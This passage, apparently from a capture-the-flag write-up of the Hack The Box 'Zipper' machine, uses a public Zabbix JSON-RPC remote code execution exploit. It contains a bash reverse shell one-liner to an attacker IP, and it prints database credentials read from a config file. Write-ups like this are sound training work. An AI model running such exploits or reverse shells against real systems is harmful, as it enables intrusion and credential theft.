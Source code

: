 It seems like that those are valid credentials, but they don't log in yet.

Searching for known vulnerabilities:
```markdown
searchsploit zabbix
```
```markdown
Zabbix 2.2 < 3.0.3 - API JSON-RPC Remote Code Execution
```

Even though the version is lower than the running version, this vulnerability could still work.
Modifying the script to our needs:
```python
# (...)
ZABIX_ROOT = 'http://10.10.10.108/zabbix'      ### Zabbix IP-address

login = 'zapper'                ### Zabbix login
password = 'zapper'     ### Zabbix password
hostid = '10105'        ### Zabbix hostid
# (...)
```

The _hostid_ can be found by running one of the scripts and it gets shown in the URL of the results:

![Zabbix getting HostID](https://kyuu-ji.github.io/htb-write-up/zipper/zipper_web-3.png)

Running the exploit:
```markdown
python 39937.py
```

After running the script, it starts a command line where it is possible to execute commands:
- `hostname`: _"25eb6425705c"_
- `ifconfig`: _172.17.0.2_
- `whoami`: _zabbix_

We can start a persistent shell, to navigate the system more comfortably:
```markdown
bash -c 'bash -i  >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Enumerating the Zabbix server

Right now this is access to the Zabbix server, but our goal is to get into the _zipper_ box.

The database information of **Zabbix** can be found in _/etc/zabbix/zabbix_server.conf_ and in there are credentials for the database:
```markdown
DBName=zabbixdb
DBUser=zabbix
DBPassword=f.YMeMd$pTbpY3-449
```

Starting real terminal:
```markdown
script -q /dev/null
```
